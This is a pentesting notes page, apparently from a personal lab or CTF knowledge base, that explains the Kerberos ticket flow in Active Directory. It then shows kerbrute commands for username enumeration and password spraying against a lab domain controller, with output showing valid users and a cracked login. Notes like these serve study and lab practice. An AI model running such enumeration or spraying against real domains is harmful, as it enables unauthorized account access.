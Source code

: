 ```yaml
---
description: >-
  Enumerate Kerberos Service.
title: KERBEROS (tcp-88)                 # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [01 Enumeration, KERBEROS (tcp-88)]                     # Change Templates to Writeup
tags: [kerberos enumeration]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

# Explanation
The Kerberos authentication protocol used by Microsoft is adopted from the Kerberos version 5 authentication protocol created by MIT and has been used as Microsoft's primary authentication mechanism since Windows Server 2003. While NTLM authentication works through a principle of challenge and response, Windows-based Kerberos authentication uses a ticket system.

At a high level, Kerberos client authentication to a service in Active Directory involves the use of a domain controller in the role of a key distribution center, or KDC. This process is shown below.

![Description](/assets/img/Pasted image 20221113212909.png)

For example, when a user logs in to their workstation, a request is sent to the domain controller, which has the role of KDC and also maintains the Authentication Server service. This _Authentication Server Request_ (or _AS_REQ_) contains a time stamp that is encrypted using a hash derived from the password of the user and the username.

When the domain controller receives the request, it looks up the password hash associated with the specific user and attempts to decrypt the time stamp. If the decryption process is successful and the time stamp is not a duplicate (a potential replay attack), the authentication is considered successful.

The domain controller replies to the client with an _Authentication Server Reply_ (_AS_REP_) that contains a session key (since Kerberos is stateless) and a _Ticket Granting Ticket_ (TGT). The session key is encrypted using the user's password hash, and may be decrypted by the client and reused. The TGT contains information regarding the user, including group memberships, the domain, a time stamp, the IP address of the client, and the session key.

In order to avoid tampering, the Ticket Granting Ticket is encrypted by a secret key known only to the KDC and can not be decrypted by the client. Once the client has received the session key and the TGT, the KDC considers the client authentication complete. By default, the TGT will be valid for 10 hours, after which a renewal occurs. This renewal does not require the user to re-enter the password.

When the user wishes to access resources of the domain, such as a network share, an Exchange mailbox, or some other application with a registered service principal name, it must again contact the KDC.

This time, the client constructs a _Ticket Granting Service Request_ (or _TGS_REQ_) packet that consists of the current user and a timestamp (encrypted using the session key), the SPN of the resource, and the encrypted TGT.

Next, the ticket granting service on the KDC receives the TGS_REQ, and if the SPN exists in the domain, the TGT is decrypted using the secret key known only to the KDC. The session key is then extracted from the TGT and used to decrypt the username and timestamp of the request. As this point the KDC performs several checks:

1.  The TGT must have a valid timestamp (no replay detected and the request has not expired).
2.  The username from the TGS_REQ has to match the username from the TGT.
3.  The client IP address needs to coincide with the TGT IP address.

If this verification process succeeds, the ticket granting service responds to the client with a _Ticket Granting Server Reply_ or _TGS_REP_. This packet contains three parts:

1.  The SPN to which access has been granted.
2.  A session key to be used between the client and the SPN.
3.  A _service ticket_ containing the username and group memberships along with the newly-created session key.

The first two parts (SPN and session key) are encrypted using the session key associated with the creation of the TGT and the _service ticket_ is encrypted using the password hash of the service account registered with the SPN in question.

Once the authentication process by the KDC is complete and the client has both a session key and a service ticket, the service authentication begins.

First, the client sends to the application server an _application request_ or _AP_REQ_ , which includes the username and a timestamp encrypted with the session key associated with the service ticket along with the service ticket itself.

The application server decrypts the service ticket using the service account password hash and extracts the username and the session key. It then uses the latter to decrypt the username from the _AP_REQ_. If the _AP_REQ_ username matches the one decrypted from the service ticket, the request is accepted. Before access is granted, the service inspects the supplied group memberships in the service ticket and assigns appropriate permissions to the user, after which the user may access the requested service.

This protocol may seem complicated and perhaps even convoluted, but it was designed to mitigate various network attacks and prevent the use of fake credentials.

### Kerbrute

Tool to validate valid users on the domain, remember that "users" is a dictionary and it must be created even if only one user needs to be tested:
```bash
kerbrute userenum -d scrm.local --dc 10.10.11.168 /usr/share/seclists/Kerberos/A-ZSurnames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 01/21/23 - Ronnie Flathers @ropnop

2023/01/21 22:44:31 >  Using KDC(s):
2023/01/21 22:44:31 >   10.10.11.168:88

2023/01/21 22:44:31 >  [+] VALID USERNAME:       ASMITH@scrm.local
2023/01/21 22:45:06 >  [+] VALID USERNAME:       JHALL@scrm.local
2023/01/21 22:45:11 >  [+] VALID USERNAME:       KSIMPSON@scrm.local
2023/01/21 22:45:13 >  [+] VALID USERNAME:       KHICKS@scrm.local
2023/01/21 22:45:44 >  [+] VALID USERNAME:       SJENKINS@scrm.local
2023/01/21 22:46:15 >  Done! Tested 13000 usernames (5 valid) in 104.092 seconds
```
Example:
[[Scramble#^68a075]]
[[Tentacle#^3451a6]]

### Password Spraying
```bash
kerbrute bruteuser --dc 10.10.11.168 -d scrm.local validUsers ksimpson

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 01/21/23 - Ronnie Flathers @ropnop

2023/01/21 23:30:54 >  Using KDC(s):
2023/01/21 23:30:54 >   10.10.11.168:88

2023/01/21 23:30:55 >  [+] VALID LOGIN:  ksimpson@scrm.local:ksimpson
2023/01/21 23:30:55 >  Done! Tested 6 logins (1 successes) in 0.494 seconds
```

Useful resource to get a dictionary with possible users on a domain (test with dot and without it):
[kerberos enum userlists](https://github.com/attackdebris/kerberos_enum_userlists)

#Note If users are found this tool will execute an [[ASREPRoast Attack]]



